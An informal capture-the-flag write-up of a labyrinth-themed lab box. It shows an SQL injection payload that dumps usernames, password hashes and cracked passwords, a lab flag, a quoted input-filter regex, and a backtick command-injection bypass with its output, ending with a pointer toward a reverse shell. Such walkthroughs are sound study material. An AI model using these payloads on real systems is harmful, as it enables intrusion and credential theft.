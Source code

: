 with the sql database and phpmyadmin installations we found all this now scream SQLI

And the source code says

```
<!-- Minotaur!!! Told you not to keep permissions in the same shelf as all the others especially if the permission is equal to admin -->
```

first we try what we know and get

```
4 Daedalus b8e4c23686a3a12476ad7779e35f5eb6
```

Sql injection is an art that require patience

We try deadalus + common payloads

And this works

`Daedalus' or 1=1#`

```
1 Eurycliedes 42354020b68c7ed28dcdeabd5a2baf8e //greeklover
2 Menekrates 0b3bebe266a81fbfaa79db1604c4e67f //greeksalad
3 Philostratos b83f966a6f5a9cff9c6e1c52b0aa635b //nickthegreek
4 Daedalus b8e4c23686a3a12476ad7779e35f5eb6 //g2e55kh4ck5r
5 M!n0taur 1765db9457f496a39859209ee81fbda4 //aminotauro
```

Minotaur is the only worthy stuff here

flag #2
fla6{the_labyrinh_was_not_that_deep}

The guy also got a `secret-suff` page with an echo panel

ugh...regexes `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/`

The panel just echoes whatever goes in...it uses a search argument

Fooling around with it it doesnt echo some charachters: `"` (double quote)

some are sanitized : `'` (single quote), `#` (hashtag)...and many more

```
You really think this is gonna be possible i fixed this @Deadalus -\_- !!!?
```

Actually one special char allows us to escape that regex : `` ` `` (that..thing)

Nevermind `|` (pipe vertical bar works too)...

Now I feel like injecting a shell there

```
`id`
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

kudos!...time to get inside (revshells.com)
